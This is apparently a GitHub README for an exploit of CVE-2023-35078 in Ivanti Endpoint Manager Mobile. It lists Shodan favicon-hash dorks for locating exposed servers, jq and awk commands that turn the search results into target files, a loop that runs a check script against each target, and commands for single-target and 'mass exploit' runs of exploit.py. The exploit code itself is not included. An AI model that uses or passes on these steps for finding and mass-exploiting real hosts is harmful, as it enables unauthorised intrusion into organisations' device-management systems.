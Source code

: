 # CVE-2023-35078
Ivanti Endpoint Manager Mobile exploit <br/>

- Shodan dorks: <br/>
	  http.favicon.hash:362091310 <br/>
	  http.favicon.hash:545827989 <br/>
	  path=/mifs <br/>

- Transform json to data <br/>

      jq -cr 'select(.http.favicon.hash == 545827989) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
      jq -cr 'select(.http.favicon.hash == 362091310) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
      python shodan-parser.py -o temp_data_file shodan.json
      awk '{print "https://"$0}' temp_data_file > data_file
- How run check. <br/>

   Format data_file must be http://ip_addr:port or https://ip_addr:port <br/> 

      while read line; do ./check.sh $line; done < data_file

- Setup requirements <br/>

      pip install -r requirements.txt

- Run exploit single address . <br/>

      python exploit.py -u http://
- Run mass exploit . <br/>

      python exploit.py -f urls.txt
